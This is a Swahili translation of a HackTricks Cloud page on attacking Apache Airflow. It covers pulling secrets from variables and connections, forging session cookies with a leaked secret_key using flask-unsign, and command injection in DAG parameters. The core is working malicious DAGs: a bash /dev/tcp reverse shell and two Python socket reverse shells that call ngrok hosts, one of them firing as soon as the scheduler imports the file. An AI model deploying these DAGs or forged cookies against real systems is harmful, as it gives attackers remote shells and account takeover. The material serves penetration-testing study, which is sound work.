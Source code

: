# Usalama wa Apache Airflow

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya HackTricks AWS)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJISAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **nifuata** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Taarifa Msingi

[**Apache Airflow**](https://airflow.apache.org) inatumika kama jukwaa la **kuorodhesha na kupanga mabomba au mifumo ya data**. Neno "kuorodhesha" katika muktadha wa mabomba ya data inamaanisha mchakato wa kupanga, kuratibu, na kusimamia mifumo ya data yenye utata inayotokana na vyanzo mbalimbali. Lengo kuu la mabomba haya ya data yaliyoandaliwa ni kutoa seti za data zilizosindika na zinazoweza kutumiwa. Seti hizi za data hutumiwa sana na programu nyingi, ikiwa ni pamoja na zana za ujasusi wa biashara, sayansi ya data na mifano ya ujifunzaji wa mashine, ambayo yote ni msingi wa utendaji wa programu za data kubwa.

Kimsingi, Apache Airflow itakuruhusu **kupanga utekelezaji wa nambari wakati kitu** (tukio, cron) **kinapotokea**.

## Maabara ya Kienyeji

### Docker-Compose

Unaweza kutumia **faili ya usanidi ya docker-compose kutoka** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) kuzindua mazingira kamili ya docker ya apache airflow. (Ikiwa uko kwenye MacOS hakikisha kutoa angalau 6GB ya RAM kwa VM ya docker).

### Minikube

Njia moja rahisi ya **kuendesha apache airflow** ni kuendesha **na minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Mpangilio wa Airflow

Airflow inaweza kuhifadhi **taarifa nyeti** katika mpangilio wake au unaweza kupata mipangilio dhaifu:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Kabla ya kuanza kushambulia Airflow unapaswa kuelewa **jinsi ruhusa zinavyofanya kazi**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Mashambulizi

### Uorodheshaji wa Konsoli ya Wavuti

Ikiwa una **upatikanaji wa konsoli ya wavuti** unaweza kupata uwezo wa kupata baadhi au yote ya taarifa zifuatazo:

* **Vipimo** (Taarifa nyeti za kawaida zinaweza kuhifadhiwa hapa)
* **Uunganisho** (Taarifa nyeti za kawaida zinaweza kuhifadhiwa hapa)
* Pata katika `http://<airflow>/connection/list/`
* [**Mpangilio**](./#airflow-configuration) (Taarifa nyeti kama **`secret_key`** na nywila zinaweza kuhifadhiwa hapa)
* Orodhesha **watumiaji na majukumu**
* **Msimbo wa kila DAG** (ambao unaweza kuwa na taarifa ya kuvutia)

### Kupata Thamani za Vipimo

Vipimo vinaweza kuhifadhiwa katika Airflow ili **DAGs** ziweze **kupata** thamani zao. Ni sawa na siri za majukwaa mengine. Ikiwa una **ruhusa za kutosha** unaweza kuzipata kwenye GUI katika `http://<airflow>/variable/list/`.\
Airflow kwa chaguo-msingi itaonyesha thamani ya kipimo kwenye GUI, hata hivyo, kulingana na [**hii**](https://marclamberti.com/blog/variables-with-apache-airflow/) inawezekana kuweka **orodha ya vipimo** ambavyo **thamani** yake itaonekana kama **nyota** kwenye **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Walakini, **thamani** hizi bado zinaweza **kupatikana** kupitia **CLI** (unahitaji kupata DB), utekelezaji wa **DAG wa kiholela**, **API** kupitia kufikia mwisho wa vipimo (API inahitaji kuwa imewezeshwa), na **hata GUI yenyewe!**\
Kupata thamani hizo kutoka kwenye GUI tu **chagua vipimo** unavyotaka kupata na **bonyeza Matendo -> Kuuza**.\
Njia nyingine ni kufanya **bruteforce** kwa **thamani iliyofichwa** kwa kutumia **kuchuja utafutaji** mpaka upate:

![](<../../.gitbook/assets/image (152).png>)

### Kupandisha Hadhi ya Mamlaka

Ikiwa mpangilio wa **`expose_config`** umewekwa kuwa **Sahihi**, kutoka kwa **jukumu la Mtumiaji** na **juu** wanaweza **kusoma** **mpangilio kwenye wavuti**. Katika mpangilio huu, **`secret_key`** inaonekana, ambayo inamaanisha mtumiaji yeyote mwenye hii inayofaa wanaweza **kuunda kuki iliyosainiwa yao wenyewe kujifanya kuwa akaunti ya mtumiaji mwingine yeyote**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Mlango wa Nyuma wa DAG (RCE katika mfanyakazi wa Airflow)

Ikiwa una **upatikanaji wa kuandika** mahali ambapo **DAGs zimehifadhiwa**, unaweza tu **kuunda moja** ambayo itakutumia **shell ya kurudi.**\
Tafadhali kumbuka kuwa shell hii ya kurudi itatekelezwa ndani ya **kontena ya mfanyakazi wa airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Mlango wa Nyuma wa DAG (RCE katika mpangaji wa Airflow)

Ikiwa unaweka kitu kutekelezwa **katika mizizi ya nambari**, wakati wa kuandika hii, itatekelezwa na **mpangaji** baada ya sekunde chache baada ya kuwekwa ndani ya folda ya DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Uundaji wa DAG

Ikiwa utafanikiwa **kudukua mashine ndani ya kikundi cha DAG**, unaweza kuunda **skripti mpya za DAG** katika folda ya `dags/` na zitakuwa **nakiliwa katika mashine zingine** ndani ya kikundi cha DAG.

### Uingizaji wa Msimbo wa DAG

Unapotekeleza DAG kutoka kwa GUI unaweza **kupitisha hoja** kwake. Kwa hivyo, ikiwa DAG haijatengenezwa vizuri inaweza kuwa **dhaifu kwa Uingizaji wa Amri.** Hapo ndipo ilipotokea katika CVE hii: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Kila unachohitaji kujua kuanza **kutafuta uingizaji wa amri katika DAGs** ni kwamba **parameta** zina **fikiwa** na msimbo **`dag_run.conf.get("jina_la_param")`**.

Zaidi ya hayo, dhaifu hiyo hiyo inaweza kutokea na **vibadilishaji** (kumbuka kwamba ukiwa na mamlaka ya kutosha unaweza **kudhibiti thamani ya vibadilishaji** katika GUI). Vibadilishaji vinapata **kwa**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Ikiwa zinatumika kwa mfano ndani ya amri ya bash, unaweza kufanya utekelezaji wa amri.

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **fuata** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
